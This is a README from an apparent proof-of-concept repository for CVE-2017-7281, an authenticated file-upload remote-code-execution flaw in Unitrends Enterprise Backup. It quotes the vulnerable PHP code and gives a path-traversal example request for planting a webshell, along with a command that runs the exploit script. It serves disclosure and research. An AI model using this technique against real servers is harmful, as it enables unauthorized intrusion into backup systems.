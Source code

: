 # CVE-2017-7281: Unitrends Enterprise Backup Solution RCE Via File Upload

## Information
**Description:** Allows authenticated command execution via file upload.  
**Versions Affected:** 8.X and below.  
**Researcher:** Dwight Hohnstein (https://twitter.com/djhohnstein)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/remote-code-execution-bug-hunting-chapter-1/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2017-7281  

## Proof-of-Concept Exploit
### Description
Need a valid session. Login to /recoveryconsole and get an auth string. You can open a file anywhere the webserver has access to (user is apache).

Variables: name: For webshells, do ../ all the way to server root (/), then go to /var/www/html/tempPDF/file_prefix contents: file contents you wish to upload report: extension of file type: the action switch to get where we need to. MUST BE SET TO file  

Vulnerable Code:
```
---------------------------------------------------| From /var/www/html/recoveryconsole/bpl/header.php | ---------------------------------------------------| // Get authentication cookie. $authentication_cookie = isset($_REQUEST['auth']) ? $_REQUEST['auth'] : ""; // The action is the operation the user is taking. $action = isset($_REQUEST['type']) ? $_REQUEST['type'] : "list";

---------------------------------------------------| From /var/www/html/recoveryconsole/bpl/reports.php | ---------------------------------------------------| // variable action from header.php ... switch($action) case "file": if (isset($_GET['report']) && isset($_REQUEST['contents'])) { $reportType = $_GET['report']; $contents = $_REQUEST['contents']; } ... $baseName = isset($_GET['name']) ? $_GET['name'] : 'report'; $reportDirectory = $BP->get_ini_value("Location Information", "Reports-Dir"); if ($reportDirectory === false) { // Since we are not erroring out, log in the error log. // Use the default value /usr/bp/logs.dir. global $Log; $message = $BP->getError() . " - Error retrieving ini field: Location Information, Report-Dir, using default (/usr/bp/re ports.dir)."; $Log->writeError($message, true); $reportDirectory = "/usr/bp/reports.dir"; } $fileName = createReportName($baseName, $reportDirectory, $reportType); $bSuccessful = saveReport($fileName, $contents); if ($bSuccessful === true) { $xml->push("root"); $xml->element("ReportFile", $fileName); $xml->pop(); } else { $errorString = "Error saving report file '" . $fileName . "'."; $BP->buildResult($xml, false, $errorString); } echo($xml->getXml()); break;
```
...
```
// This function returns a name of a report (the CSV file) based on the type of report and date/time. // function createReportName($baseName, $directory, $type) { $sName = $directory . '/' . $baseName; $timestamp = time(); $date = date('mdy-His', $timestamp);

    $sName .= $date . '.' . $type;
    
    return $sName;
}

// // This function saves the contents of the report to the file and returns // true if successful and false if not. // function saveReport($file, $contents) { $bSuccessful = false; $fp = fopen($file, 'w+'); if ($fp !== false) { fwrite($fp, $contents); fclose($fp); $bSuccessful = true; } return $bSuccessful; }
```
Example Request:

https://10.10.10.89/recoveryconsole/bpl/reports.php?type=file&report=php&name=../../../../../../../../var/www/html/tempPDF/rsl&contents=&auth=djA6MjI2ZjYyYTItMWFlNy00MDM4LTkxZTctODkxOGFmMjQ2YjYxOjE6L3Vzci9icC9sb2dzLmRpci9ndWlfcm9vdC5sb2c6MA%3D%3D

### Usage/Exploitation
`python CVE-2017-7281.py -u TARGET -U USERNAME -P PASSWORD`  

### Screenshot
![Alt-text that shows up on hover](poc_image.png)